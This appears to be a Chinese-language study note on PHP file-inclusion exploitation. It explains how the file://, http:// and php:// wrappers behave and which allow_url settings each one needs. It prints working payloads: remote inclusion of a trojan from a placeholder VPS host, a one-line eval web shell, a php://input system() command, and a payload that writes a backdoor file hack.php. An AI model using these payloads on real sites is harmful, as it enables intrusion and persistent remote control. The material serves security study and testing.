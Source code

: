 **各协议的利用条件和方法：**

参考：https://www.cnblogs.com/endust/p/11804767.html

![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/1628997823639-8d22e937-1e94-4abd-9e2a-e459e009be24.png)

### `file://`

php 涉及到文件以及协议的地方默认使用 file 协议，如果没有写出协议名或者协议不存在，都会被当成 file 协议来解析。

`file://[文件的绝对路径和文件名]`

**不受allow_url_fopen、allow_url_include 开启的限制。**

如：`?a=file://C:/Windows/win.ini`

### `http://`、`ftp://`

访问 HTTP(s) 网址/访问 FTP(s) URLs。允许通过 HTTP 1.0 的 GET方法，以只读访问文件或资源，通常用于远程包含。

**需要allow_url_fopen = On、allow_url_include = On。**

比如包含木马文件`?a=http://vps.vps.vps.vps/shell.php`

木马文件（shell.txt）内容：`<?php @eval($_POST['shell']);?>`

### **`php://`**

访问各个输入/输出流（I/O streams）。经常使用的是`php://filter`和`php://input`，`php://filter`用于读取源码，`php://input`用于执行php代码。

包括`php://stdin`、`php://stdout`、`php://stderr`、`php://input`、`php://output`、`php://filter`、`php://fd`、`php://memory`、`php://temp` 九种。

- **`php://input`**

  访问请求的原始数据的只读流，将post请求的数据当作php代码 **执行**。注意`enctype=“multipart/form-data”` 的时候`php://input`是无效的。

  **需要allow_url_include = On，但是不受 allow_url_fopen 影响。**

  ```php
  ?page=php://input
  
  命令执行：
  POST:
  <?php system('ls');?>
  
  GetShell：
  POST:
  <?php fputs(fopen('hack.php','w'),'<?php @eval($_POST['shell']) ?>');?>
  ```

  ![image-20220805094122145](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805094122145.png)

- **`php://filter`**

  数据流打开时的筛选过滤应用，**读取/解析** 本地源代码。

  **不受 allow_url_fopen、allow_url_include 影响。**
